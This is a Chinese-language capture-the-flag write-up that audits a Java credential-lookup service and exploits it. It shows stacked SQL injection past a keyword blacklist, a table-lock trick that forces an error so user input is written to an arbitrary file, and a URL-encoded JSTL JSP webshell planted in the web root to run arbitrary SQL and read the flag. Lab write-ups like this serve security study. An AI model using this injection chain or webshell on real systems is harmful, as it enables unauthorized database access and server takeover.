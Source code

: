 首先审计看关键代码
~~~
public String auth(@RequestParam String username, @RequestParam String password, HttpServletRequest request){
    String message="社工库未查询到泄露记录，你的账号是安全的。";

    if(SafeUtil.sql_check(username) || SafeUtil.sql_check(password)){
        message="stop sql inject!";
        return message;
    }

    try {
        String sql = "select username,password from app_user where username ='" + username + "' and password ='" + password + "' ;";
        ResultSet resultSet = DbUtil.getInstance().query(sql);
        if (null != resultSet) {
            while (resultSet.next()) {
                message = "您的QQ账号密码已经泄露，请立即修改密码";
                break;
            }
        }
    }catch (Exception e){
        e.printStackTrace();
        message="数据查询出错";
    }
    insertQueryLog(username,password);
    return message;
}
~~~
跟进看过滤
~~~
public static boolean sql_check(String sql){

    sql = sql.toLowerCase(Locale.ROOT);
    String ban[] = {"'",
            "file",
            "information",
            "mysql",
            "from",
            "update",
            "delete",
            "select",",","union","sleep","("};
    for (String s:ban) {
        if(sql.contains(s)){
            return true;
        }
    }
    return false;
}
~~~
虽然过滤的单引号，直接转义绕过，继续看配置文件config.properties
url=jdbc:mysql://127.0.0.1:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC
db_username=root
db_password=root

明显开启了堆叠，而且没过滤分号，直接堆叠可以注入，但是其他的无法绕过
继续看代码，跟进 insertQueryLog(username,password);
~~~
private int insertQueryLog(String username,String password){
    String sql = "insert into app_query_log(username,password) values(?,?);";
    Connection connection = DbUtil.getConnection();
    PreparedStatement preparedStatement;
    int count=0;
    try {
        connection.setAutoCommit(false);
        preparedStatement=connection.prepareStatement(sql);
        preparedStatement.setQueryTimeout(3);
        preparedStatement.setString(1,username);
        preparedStatement.setString(2,password);
        count = preparedStatement.executeUpdate();
        connection.commit();
    } catch (SQLException e) {
        LogUtil.save(username,password);
        e.printStackTrace();
    }

    return count;
}
~~~
跟进LogUtil.save方法
~~~
public class LogUtil {
    public LogUtil() {
    }

    public static void save(String username, String password) {
        FileUtil.SaveFileAs(username, password);
    }
}
~~~
继续跟进FiltUtil.SaveFileAs方法
~~~
public static boolean SaveFileAs(String content, String path) {
    FileWriter fw = null;

    boolean var4;
    try {
        fw = new FileWriter(new File(path), false);
        if (content != null) {
            fw.write(content);
        }

        return true;
    } catch (IOException var14) {
        var14.printStackTrace();
        var4 = false;
    } finally {
        if (fw != null) {
            try {
                fw.flush();
                fw.close();
            } catch (IOException var13) {
                var13.printStackTrace();
            }
        }

    }

    return var4;
}
~~~
那么思路就清晰起来了，只要报异常，就能以username为内容，password为文件名来实现任意文件写
但是过滤了(就很伤，没有办法调用方法
所以到这里时，需要解决两个问题：

- 让sql报错，进入catch异常，实现任意文件写
- 不用括号，读取数据库内容

接着我们来一一解决
首先看看要让其报错的语句
String sql = "insert into app_query_log(username,password) values(?,?);";
很明显是一个插入语句，怎么才能失败呢，有几种方法

1.修改app_query_log表，让username为主键，重复插入时会报异常。
2.删除app_query_log表，找不到要插入的表，报异常
3.锁表

我们这里使用比较优雅的方式，就是锁表来实现
第一步，先锁表，禁止更新的情况下，插入会报异常。
username=a\&password=;flush tables with read lock;%23
第二步，写入jsp文件，由于过滤了括号，这时候只能使用jstl标签来执行，完美避开了括号
下面是标签执行sql语句并回显的小马
<%@ page language="java" contentType="text/html; charset=UTF-8"
    pageEncoding="UTF-8"%>
<%@ taglib uri="http://java.sun.com/jsp/jstl/sql" prefix="sql"%>
<%@ taglib uri="http://java.sun.com/jsp/jstl/core" prefix="c"%>
<%@ page isELIgnored="false" %>
<sql:setDataSource var="test" driver="${param.driver}"
        url="${param.url}" user="root" password="root" />
   <sql:query dataSource="${test}" var="result">
        ${param.sql}
    </sql:query>

<table border="1" width="100%">
        <tr>
            <th>ctfshow</th>
        </tr>
        <c:forEach var="row" items="${result.rows}">
            <tr>
                <td><c:out value="${row.t}" /></td>
            </tr>
        </c:forEach>
    </table>
    
    被过滤的关键字，一律使用get参数注入，绕过waf，payload如下：
~~~
    username=%3C%25%40%20page%20language%3D%22java%22%20contentType%3D%22text%2Fhtml%3B%20charset%3DUTF-8%22%0A%20%20%20%20pageEncoding%3D%22UTF-8%22%25%3E%0A%3C%25%40%20taglib%20uri%3D%22http%3A%2F%2Fjava.sun.com%2Fjsp%2Fjstl%2Fsql%22%20prefix%3D%22sql%22%25%3E%0A%3C%25%40%20taglib%20uri%3D%22http%3A%2F%2Fjava.sun.com%2Fjsp%2Fjstl%2Fcore%22%20prefix%3D%22c%22%25%3E%0A%3C%25%40%20page%20isELIgnored%3D%22false%22%20%25%3E%0A%3Csql%3AsetDataSource%20var%3D%22test%22%20driver%3D%22%24%7Bparam.driver%7D%22%0A%20%20%20%20%20%20%20%20url%3D%22%24%7Bparam.url%7D%22%20user%3D%22root%22%20password%3D%22root%22%20%2F%3E%0A%20%20%20%3Csql%3Aquery%20dataSource%3D%22%24%7Btest%7D%22%20var%3D%22result%22%3E%0A%20%20%20%20%20%20%20%20%24%7Bparam.sql%7D%0A%20%20%20%20%3C%2Fsql%3Aquery%3E%0A%0A%0A%0A%3Ctable%20border%3D%221%22%20width%3D%22100%25%22%3E%0A%20%20%20%20%20%20%20%20%3Ctr%3E%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Cth%3Et%3C%2Fth%3E%0A%20%20%20%20%20%20%20%20%3C%2Ftr%3E%0A%20%20%20%20%20%20%20%20%3Cc%3AforEach%20var%3D%22row%22%20items%3D%22%24%7Bresult.rows%7D%22%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3Ctr%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%3Ctd%3E%3Cc%3Aout%20value%3D%22%24%7Brow.t%7D%22%20%2F%3E%3C%2Ftd%3E%0A%20%20%20%20%20%20%20%20%20%20%20%20%3C%2Ftr%3E%0A%20%20%20%20%20%20%20%20%3C%2Fc%3AforEach%3E%0A%20%20%20%20%3C%2Ftable%3E&password=../webapps/ROOT/1.jsp
~~~    
    成功生成1.jsp作为小马
第三步，使用小马，查询数据库所有表的名字
http://xxx/1.jsp?driver=com.mysql.jdbc.Driver&url=jdbc:mysql://localhost:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC&sql=select group_concat(table_name) as t from information_schema.tables where table_schema="app";

第四步，读取flag值
http://xxx.com/1.jsp?driver=com.mysql.jdbc.Driver&url=jdbc:mysql://localhost:3306/app?characterEncoding=utf-8&useSSL=false&&autoReconnect=true&allowMultiQueries=true&serverTimezone=UTC&sql=select f1ag as t from app_flag_xxoo_non0 union select 1;
